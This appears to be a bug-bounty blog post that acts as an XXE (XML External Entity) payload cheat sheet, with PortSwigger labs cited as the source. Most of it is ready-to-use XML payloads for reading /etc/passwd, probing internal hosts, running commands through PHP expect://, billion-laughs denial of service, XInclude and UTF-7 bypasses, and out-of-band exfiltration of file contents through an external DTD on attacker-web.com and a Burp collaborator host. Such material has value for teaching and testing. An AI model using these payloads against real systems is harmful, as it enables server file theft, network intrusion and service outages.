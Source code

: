 ```yaml
---
layout: post
title:  "XXE Attacks"
author: erik
categories: [ Web ]
image: https://user-images.githubusercontent.com/47476901/158905099-e3bd6d01-a91d-486b-8d64-db4dd55f97cd.png
beforetoc: ""
toc: false
tags: [ Web, Bug Bounty, Payloads ]
---
```

XXE (XML External Entity) attacks are vulnerabilities that arise in applications that parse XML input. Thanks to this an attacker could alter the XML data in the request to execute an attack.

# Table of Contents
1. [Dangers in XXE attacks](#DangersXXE)
2. [Payloads](#XXEpayloads)<br>
   2.1. [XXE to LFI](#XXEtoLFI)<br>
   2.2. [XXE to SSRF](#XXEtoSSRF)<br>
   2.3. [XXE to RCE](#XXEtoRCE)<br>
   2.4.  [XXE to DOS](#XXEtoDOS)
6. [Blind on request](#BlindXXE)
7. [Bypass XXE](#XXEBypass)
8. [Out-Of-Band](#OutOFBand)

---

### Dangers in XXE attacks <a name="DangersXXE"></a>
- **Exfiltrate critical information:**<br>
It
would be possible to obtain internal files from the server, which is dangerous.<br>
Example: 
[XXE to LFI](#XXEtoLFI)
- **Enumerate ports and domains in addresses internal to the network:**<br>
Through the requests enumerate the network.<br>
Example: 
[XXE to SSRF](#XXEtoSSRF)
- **See open ports at other external addresses:**<br>
 List ports using requests.
- **Execute code:** <br>
If the server has the PHP "expect" module, it would be possible to execute code and be able to execute commands.<br>
Example: 
[XXE to RCE](#XXEtoRCE)
- **Denial of service:**
Causes a denial of service by repeated calls in entitys functions.<br>
Example: 
[XXE a DOS](#XXEtoDOS)

---

###  XXE payloads <a name="XXEpayloads"></a>
**LFI Test** <a name="XXEtoLFI"></a><br>
View internal server files

```xml
<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<foo>&xxe;</foo>
```

**XXE a SSRF** <a name="XXEtoSSRF"></a><br>
List the local network of the server
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "https://192.168.0.1">]>
<foo>&xxe;</foo>
```

**XXE a RCE** <a name="XXEtoRCE"></a><br>
Abusing the expect module of php to execute commands (It is required to have this module on the server)
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [ <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "expect://id" >]>
    <checkproduct>
       <productId>&xxe;</productId>
       <storeId>2</storeId>
    </checkproduct>
```
**XXE a DOS** <a name="XXEtoDOS"></a><br>
Cause a denial of service by repeatedly calling entity's functions
```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
<!ENTITY lol "lol">
<!ELEMENT lolz (#PCDATA)>
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```
---

### XXE blind on request <a name="BlindXXE"></a>
**See if there is an XXE without it being seen in the request**

One way to identify an XML blind in a request: If the application embeds the submitted data in an XML document and then parses the document as it passes in a backend SOAP request.
We can try injecting XInclude which is a part of the XML specification that allows you to create an XML document from subdocuments..<br>
Example:
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"> <xi:include parse="text" href="file:///etc/passwd"/></foo>



    POST /product/stock HTTP/1.1
    Host: domain.com
    Content-Length: 126
    
    productId=1&storeId=1
    ------------------------------
    POST /product/stock HTTP/1.1
    Host: domain.com
    Content-Length: 126
    
    productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

 **This could also be used in case it is blind**
 ```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"> <xi:include parse="text" href="file:///etc/passwd"/></foo>

    POST /product/stock HTTP/1.1
    Host: domain.com
    Content-Length: 126
    
    productId=1&storeId=1
    ------------------------------
    POST /product/stock HTTP/1.1
    Host: domain.com
    Content-Length: 126
    
    productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="http://attacker-web.com"/></foo>&storeId=1
```

**Blind XXE test (When it does not return values)**

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo (#ANY)>
<!ENTITY % xxe SYSTEM "file:///etc/passwd">
<!ENTITY blind SYSTEM "https://subdomain.burpcolaborator.net/?%xxe;">]>
<foo>&blind;</foo>
```
---
### XXE bypass <a name="XXEBypass"></a>
**XXE UTF-7**

```xml
<?xml version="1.0" encoding="UTF-7"?>
+ADwAIQ-DOCTYPE foo+AFs +ADwAIQ-ELEMENT foo ANY +AD4
+ADwAIQ-ENTITY xxe SYSTEM +ACI-http://attacker-web.com+ACI +AD4AXQA+
+ADw-foo+AD4AJg-xxe+ADsAPA-/foo+AD4
```

**Access Control bypass (loading sensitive data)**

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ENTITY load SYSTEM "php://filter/read=convert.base64-encode/resource=http://vulnerable-web.com/config.php">]>
<foo><result>&load;</result></foo>
```

---

### XXE Out-Of-Band: <a name="OutOFBand"></a>

**EXAMPLE 1**
- It is injected into the value &xxe; in one of the xml values that are sent.

```xml
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://attacker-web.com"> ]>
```

**EXAMPLE 2**
- Payload that we will include completely in the xml value that is sent. It will make a request to the attacker's website, so we can know if it really processes the information we send it.

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://attacker-web.com"> %xxe; ]>
```

**EXAMPLE 3**
- Code from http://attacker-web.com/cositas.dtd

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://subdomain.burpcollaborator.net/?x=%file;'>">
%eval;
%exfiltrate; 
```

- XML injection before the values of the page, it will inject the code of cositas.dtd in the page

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://attacker-web.com/cositas.dtd"> %xxe;]>
```

**EXAMPLE 4**
- XXE BLIND based on error message
- Code from http://attacker-web.com/cositas.dtd

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///notexist/%file;'>">
%eval;
%error;
```

- XML injection in the page, it will inject the code of cositas.dtd

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://attacker-web.com/cositas.dtd"> %xxe;]>
```

**EXAMPLE 5**
- Exploiting an XXE by abusing the system's DTD files, in the file it calls ISOamso, we will use that variable to exploit the XXE by creating a custom xml that performs the function of calling the /etc/passwd file that is the target.

```xml
<!DOCTYPE foo [
<!ENTITY % el_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
  <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
  <!ENTITY &#x25; variable "
      <!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///notexist/&#x25;file;&#x27;>
  ">
  &#x25;variable;
  &#x25;error;
'>%el_dtd;]>
```

---

- Source Labs: [Portswigger Labs](https://portswigger.net/web-security)
- Credits Image: [cobalt.io](https://www.cobalt.io)
